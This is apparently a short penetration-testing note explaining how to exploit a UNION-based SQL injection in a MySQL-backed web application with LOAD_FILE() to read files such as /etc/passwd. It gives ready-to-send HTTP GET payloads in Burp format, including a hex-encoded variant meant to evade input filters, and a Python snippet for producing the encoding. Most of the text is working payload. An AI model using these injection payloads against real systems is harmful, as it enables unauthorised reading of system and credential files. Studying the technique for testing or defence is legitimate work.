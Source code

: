 # SQL Injection to Read Files on Target
If we find ourselves with a UNION based SQL Injection vulnerability, we can attempt to use the `LOAD_FILE()` function in MySQL to read and return a file as a string. 

For instance, in Burp:
```
GET
/users/nonexistentuser%20union%20select%20all%20LOAD_FILE("/etc/passwd")--%20-HTTP/1.1
Host ...
```
Here we have a UNION SELECT ALL injection on MySQL database from a poorly-written web application. Now, we may need to "hexifiy" the string for `/etc/passwd` if the result does not return an error or any data. This is caused by filters and restrictions. To do this, we can use Python as so,
```
root@attacker-machine:~# python3
>>> import binascii
>>> binascii.hexlify(b"/etc/passwd")
b'2f6574632f706173737764'
>>> 
```
Then, we simply place that into the `LOAD_FILE()` function as the only argum,ent as so in Burp:
```
GET
/users/nonexistentuser%20union%20select%20all%20LOAD_FILE(0x2f6574632f706173737764)--%20-HTTP/1.1
Host ...
```
